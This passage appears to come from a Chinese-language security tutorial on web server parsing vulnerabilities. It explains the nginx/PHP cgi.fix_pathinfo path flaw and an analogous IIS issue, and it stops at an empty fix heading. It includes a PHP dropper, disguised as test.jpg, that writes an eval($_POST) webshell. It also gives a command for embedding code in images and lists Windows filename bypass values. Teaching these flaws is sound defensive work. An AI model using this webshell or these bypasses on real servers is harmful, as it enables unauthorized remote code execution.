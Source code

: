   
但在nginx<8.03环境中，新建一个文件test.jpg，直接访问显示图片解析错误。在浏览器中访问/test.jpg/test.php ，则显示Access denied.。  
  
  
问题来了，test.jpg是文件不是目录，test.php更是根本就不存在的文件，访问/test.jpg/test.php没有报404，而是显示Access denied.。  
  
![](https://mmbiz.qpic.cn/mmbiz_png/CQf7uHzmVb2fuR5KibAzuBhoDaoDQbL0g6micQx1PwS53aszSKjApIPKKrW3kvqPx2rxW0uJLhCc42Bs8454iafkw/640?wx_fmt=png&from=appmsg "")  
  
原因在于，Nginx拿到URI（/test.jpg/test.php） 后，识别后缀是.php，直接转交给php去处理。php判断/test.jpg/test.php不存在，便删去最后的/test.php，继续判断/test.jpg存在，便把/test.jpg当成要执行的文件，又因为后缀为.jpg，php认为这不是php文件，于是返回Access
denied.。  
  
这其中涉及到php的一个选项：cgi.fix_pathinfo，该值默认为1，表示开启。**开启这一选项后PHP对文件路径采用从右向左的判断逻辑进行处理。以/为分隔逐层判断文件是否存在，直到判断到存在的那个路径。**所以导致php会去尝试解析test.jpg。  
  
该选项在配置文件php.ini中。若是关闭该选项，访问 /test.jpg/test.php 只会返回找不到文件。但关闭该选项很可能会导致一些其他错误，所以一般默认是开启的。  
  
**漏洞形式：/x.jpg/x.php**  
  
另外一种利用方式是上传一个名字为test.jpg，以下是文件的内容：  
  
<?PHP
fputs(fopen('shell.php','w'),'<?php eval($_POST[cmd])?>');?>  
  
然后访问 test.jpg/.php，在这个目录下就会生成一句话木马shell.php。  
  
```
图片马利用方法：
将恶意文本写入图片的二进制代码之后，避免破坏图片文件头和尾。
例：copy xx.jpg/b + yy.txt/a xy.jpg
/b 即二进制[binary]模式
/a 即ascii模式 xx.jpg正常图片文件
```  
  
新版本的php引入了security.limit_extensions ，限制了可执行文件的后缀，默认只允许执行.php文件。  
  
这一漏洞是**由于Nginx中php配置不当而造成的，与Nginx版本无关，但在高版本的php中，由于security.limit_extensions 的引入，使得该漏洞难以被成功利用。**  
  
IIS在这一点和Nginx是一样的，同样存在这一问题。而**如Apache等，会先看该文件是否存在，若存在则再决定该如何处理。**cgi.fix_pathinfo是php具有的，若在php前便已正确判断了文件是否存在，cgi.fix_pathinfo便派不上用场了，这一问题自然也就不存在了。  
  
### 2、IIS相关的解析漏洞  
  
IIS7.5 的漏洞与 nginx 的类似，都是由于 php 配置文件中，开启了 cgi.fix_pathinfo，而这并不是 nginx 或者 iis7.5 本身的漏洞。  
  
跟 nginx 解析漏洞一样，利用的条件是 php.ini => cgi.fix_pathinfo=1 开启的情况才会产生。  
  
可以配合操作系统文件命名规则，上传不符合 windows 文件命名规则的文件名。  
  
如：  
- test.asp.  
  
- test.asp(空格)  
  
- test.php:1.jpg  
  
- test.php:: $DATA  
  
会被 windows 系统自动去掉不符合规则符号后面的内容，然后再配合这个解析漏洞来执行文件。  
  
### 修复方案  
  